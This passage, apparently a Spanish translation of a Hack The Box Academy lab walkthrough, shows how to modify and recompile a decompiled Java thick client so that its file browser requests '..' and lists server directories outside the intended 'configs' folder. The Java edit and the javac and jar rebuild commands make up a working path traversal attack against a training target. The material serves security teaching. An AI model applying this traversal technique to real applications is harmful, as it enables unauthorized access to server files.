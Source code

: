 Podemos reemplazar el`configs`nombre de carpeta con`..`como sigue.

Código:Java

```java
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");

```

A continuación, compile el`ClientGuiTest.Java`archivo.

Explotación de vulnerabilidades web en aplicaciones de cliente grueso

```powershell
C:\> javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java

```

Esto genera varios archivos de clase. Creemos una nueva carpeta y extraemos el contenido de`fatty-client-new.jar`en él.

Explotación de vulnerabilidades web en aplicaciones de cliente grueso

```powershell
C:\> mkdir raw
C:\> cp fatty-client-new.jar raw\fatty-client-new-2.jar

```

Navegar al`raw`directorio y descomprimido`fatty-client-new-2.jar`haciendo clic derecho y seleccionando`Extract Here`. Sobrescribir cualquier existente`htb/fatty/client/gui/*.class`archivos con archivos de clase actualizados.

Explotación de vulnerabilidades web en aplicaciones de cliente grueso

```powershell
C:\> mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\

```

Finalmente, construimos el nuevo archivo JAR.

Explotación de vulnerabilidades web en aplicaciones de cliente grueso

```powershell
C:\> cd raw
C:\> jar -cmf META-INF\MANIFEST.MF traverse.jar .

```

Inicie sesión en la aplicación y naveguemos a`FileBrowser` -> `Config`opción.

![](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/traverse.png)

Esto es exitoso. Ahora podemos ver el contenido del directorio`configs/../`. Los archivos`fatty-server.jar`y`start.sh`Parece interesante. Enumerar el contenido del`start.sh`el archivo revela que`fatty-server.jar`está funcionando dentro de un contenedor de Docker Alpine.
